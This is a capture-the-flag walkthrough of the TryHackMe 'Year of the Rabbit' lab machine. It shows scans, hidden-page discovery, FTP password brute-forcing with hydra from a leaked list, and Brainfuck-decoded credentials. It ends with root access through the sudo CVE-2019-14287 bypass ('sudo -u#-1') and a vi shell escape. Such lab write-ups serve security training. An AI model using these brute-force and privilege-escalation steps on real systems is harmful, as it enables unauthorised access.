


<head>
<h1><center>Year of the Rabbit</center></h1>
</head>

<br>

## Description



<br>

## Enumeration

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are two open ports on the machine.

```
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 21

The first thing that I did was to check anonymous login into FTP.
But it was not accessible 🙁

#### Port 80

Going over to the port 80 shows default Apache webpage.

#### Directory Scan

Scan shows a directory listing at /assets/

```
403 http://10.10.129.76/.htpasswd
403 http://10.10.129.76/.htaccess
403 http://10.10.129.76/server-status
200 http://10.10.129.76/assets/ (Apache) detected directory listing
200 http://10.10.129.76/assets/style.css
200 http://10.10.129.76/icons/openlogo-75.png
200 http://10.10.129.76/index.html
200 http://10.10.129.76/assets/RickRolled.mp4
```


Going over to `/assets/style.css` shows one more direcotry

```
/sup3r_s3cr3t_fl4g.php
```
<br>

### Secret Page

Visiting `/sup3r_s3cr3t_fl4g.php` gives an alert to turn the javascript off.
Turning off the js shows a video `/assets/RickRolled.mp4` and a message

```
Love it when people block Javascript...
This is happening whether you like it or not... The hint is in the video.
If you're stuck here then you're just going to have to bite the bullet!
Make sure your audio is turned up!
```

Watching that video tells us that we are not in correct path...

Now this is where I took most time..
I tried different wordlists and all, but none of them returned anything.

So I opened the one and only [Burpsuite](https://portswigger.net/burp) to analyze the website..

sending a GET request to get `/sup3r_s3cr3t_fl4g.php` shows another hidden directory `/WExY*******`

<br>

### Hidden Directory

Going over to this hidden directory shows an image `Hot_Babe.png`


<br>

## Hot Babe

The first thing that you do if you find an image is checking its metadata.
We can see that there is some data at the end of the image.



That data is a list of passwords for FTP user

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

To find that combination I used [hydra](https://www.kali.org/tools/hydra/)

```
[21][ftp] host: 10.10.76.43   login: ftpuser   password: 5iez*********
```

## FTP

After logging into the ftp there is a file `Eli's_Creds.txt`
We can tranfer the file into our machine using `get` command.

The creds are encoded in Brainfuck..ahh!!

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Using [dcode](https://dcode.fr/en) we get creds.

```
User: eli

Password: DSpDiM*******
```

<br>

## SSH

After logging in we see this message 

```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

first things first - Checking the users on the system..

```
1. root
2. eli
3. gwendoline
```

Now getting to the message, we can grep the system for `s3cr3t` to find this file `/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`

Now straight away we get password for user gwendoline.

```
MniVCQ*******
```

<br>

## Gwendoline

After logging in as gwendoline, we can see user flag

```
THM{1107174691af9ff36***********************}
```

Now running `sudo -l` command shows 

```
sudo -l --- (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

This basically means user gwendoline can run the above command as anyone but root.

But checking the `sudo` version we see that it too old `1.8.10p3`

Searching for vulnerabilities we can find [`CVE-2019-14287`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287) which allows anyone to bypass the restrictions to run sudo.

<br>

## Root

Running this command `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt` opens the `vi` editor as root.

Then heading over to GTFObins gives this command to spawn the shell as root..

```
:set shell=/bin/sh
:shell
```

root flag

```
THM{8d6f163a87a1c80de2**********************}
```